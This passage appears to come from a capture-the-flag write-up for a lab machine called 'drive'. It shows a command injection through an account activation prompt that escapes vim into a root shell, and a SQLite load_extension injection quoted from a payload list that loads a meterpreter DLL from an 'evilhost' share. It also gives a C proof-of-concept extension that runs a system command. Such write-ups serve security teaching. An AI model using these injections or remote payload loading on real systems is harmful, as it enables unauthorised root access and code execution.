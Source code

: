 
When I hit enter, it open `vim` with the text "admin". I'll enter
`:!/bin/bash` to execute `bash` from within `vim`, and it drops to a
root shell:



    Select option: 5
    Enter username to activate account: "&edit(username);-- -
    Activating account for user '"&edit(username)---'...

    bash: groups: No such file or directory
    bash: lesspipe: No such file or directory
    bash: dircolors: No such file or directory
    root@drive:~#



This shell has no PATH, so I can either set it, or run everything with
full path:



    root@drive:/root# /bin/ls
    root.txt
    root@drive:/root# /bin/cat root.txt
    641e7a5b************************



### Via SQLi / load_extension

#### Strategy

The `activate_user_account` function asks for input which is used to
build a command string. If I can bypass the filter function, then I can
inject into that SQLite call. The [PayloadsAllTheThings page on
SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---load_extension)
shows this POC for getting RCE via SQLite:



    UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--



It's loading a DLL from a file share to run on a Windows host. Still,
this is enough to get me looking at the `load_extension`
[function](https://www.sqlite.org/c3ref/load_extension.md), which
seems to load a shared object file and call `sqlite3_extension_init`.

#### POC load_extension

First I want to get a payload that will run. I'll create a very simple
POC program in C:



    #include <stdlib.h>

    void sqlite3_extension_init() {
        system("id");
    }

